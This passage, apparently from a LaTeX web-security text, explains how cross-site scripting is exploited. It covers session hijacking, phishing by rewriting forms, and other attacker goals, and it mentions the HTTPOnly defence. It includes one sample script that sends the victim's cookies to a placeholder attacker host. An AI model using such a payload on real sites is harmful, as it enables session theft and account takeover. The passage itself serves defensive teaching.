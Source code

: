 
\subsection{Attacks using XSS}
Once the attacker finds a vulnerability has several ways to exploit it. Knowing the diverse ways a XSS can be used is useful to prevent it.

\subsubsection{Session hijacking attack}
The goal of this attack is to steal the session cookies to impersonate the user. A payload like this can send the cookies to a remote server controlled by the attacker passing the cookies as a parameter.

\begin{html}
<script>
  document.InnerHTML += "<img src='http://attackersite.com/?cookie=" + 
  document.cookie 
  + "/'>" 
</script>
\end{html}


This attack can be easily countered by setting the session cookies with the flag HTTPOnly, that we explained earlier in the cookies chapter.

\subsubsection{Phishing attack}
This attack overwrites the HTML of the website to trick the user into sending login credentials to the attacker. For example the payload can modify a form to submit the contents to a malicious server, or even modify the current page to make it look like the login page.

\subsubsection{Others}
JavaScript can interact with a lot of parts of the browser, and this makes XSS exploits very powerful. The attacker imagination is the limit but we can name a few more ways to exploit a XSS.

\begin{itemize}
	\item Redirect the victim to another URL.
	\item Modify the page with fake information.
	\item Recollect user information.
	\item Find browser version to send a targeted exploit.
\end{itemize}
